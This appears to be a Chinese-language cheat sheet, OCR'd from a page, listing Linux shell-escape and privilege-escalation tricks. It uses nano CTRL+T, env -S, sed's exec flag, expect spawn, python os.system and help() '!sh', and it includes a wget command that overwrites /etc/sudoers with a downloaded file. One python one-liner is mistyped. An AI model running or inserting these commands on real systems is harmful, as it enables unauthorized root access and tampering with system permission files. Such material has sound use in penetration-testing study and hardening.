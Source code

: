 ### pico & nano
CTRL + T 可以直接执行 shell 命令
```bash
nano
CTRL + T
ls
```

### env
```bash
env -S whoami --help
```

### wget
远程下载，覆盖任意 sudoers 文件
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

### sed
sed 的 exec 也可以执行命令
=
```bash
sed '1e exec "ls" "-al"'
```

## 利用语言解析引擎
### expect
```bash
expect spawn sh
sh
```

### python
python 可以直接导入 os 执行 sh
```bash
python -c '__import("os").system("/bin/sh")'
```
也可以通过 help 函数，breakpoint 函数进入 shell 环境。
输入 help() 之后进入 help 命令行，在输入一个模块进入该模块的帮助文档。
```py
help> os
```
然后在输入 `!sh` 就可以拿到 /bin/sh, 输入 `!bash` 则可以拿到 /bin/bash

使用 - 可以进入交互式命令行。
```bash
python - 111
```

注意，下面的 payload 也可以执行。
```bash
python '-c__import__("os").system("ls")'
```
-c 参数可以直接连接 python 代码，如果某些场景只能输入一个参数，就可以通过这种方式传入。很多 linux 二进制都有这个特性，参数名可以直接连接参数值。例如 mysql
```bash
mysql -uroot -proot
```
